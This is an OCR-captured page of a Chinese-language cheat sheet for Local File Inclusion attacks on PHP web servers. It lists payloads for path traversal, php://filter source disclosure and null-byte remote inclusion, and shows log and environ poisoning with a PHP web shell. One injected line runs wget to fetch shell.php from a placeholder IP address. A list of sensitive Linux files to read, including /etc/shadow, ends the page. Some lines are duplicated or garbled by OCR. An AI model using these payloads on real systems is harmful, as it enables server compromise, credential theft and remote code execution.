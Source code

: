 fimap -u “http://INSERTIPADDRESS/example.php test=”dotdotpwn.pl -m http -h 192.168.1.1 -M GET

curl -s http://INSERTIPADDRESS/gallery.php page=/etc/passwd/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php page=

## 使⽤ base64 编码绕过检测
http://INSERTIPADDRESS/index.php page=php://filter/convert.base64-encode/resource=index base64 -d savefile.php

## 使⽤空字节或者问号绕过检测
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00

http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt

## 伪造 UA 然后包含 /proc/self/environ 获取 shell
USERAGENT:  < system(‘wget http://IPADDRESS/shell.php -O < system(‘wget http://IPADDRESS/shell.php -O shell.php’); >

LFI:  www.website.com/view.php page=../../../../../proc/self/environ http://www.website.com/view.php page=../../../../../proc/self/environ

## 包含访问⽇志
nc 10.10.10.10 80
GET /<?php echo shell_exec($_GET['cmd']); ?> HTTP/1.1
Host: 10.10.10.10
Connection: close
LFI: www.website.com/view.php?
page=../../../../../var/log/apache2/access.log&cmd=id
## 包含 ssh 的登录⽇志
ssh "<?php phpinfo();?>"@IPADDRESS
LFI: www.website.com/view.php?page=../../../../../var/log/auth.log
## 包含 php 的 session ⽂件
需要提前获取到当前的 sessionid

LFI: http://www.website.com/view.php page=../../../../../var/lib/php/sess_as7sdfasd87392s

# Linux 下可以包含的⽂件
/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf 
/etc/apache2/httpd.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab
/etc/ftpaccess
/etc/ftpchroot
/etc/ftphosts
/etc/groups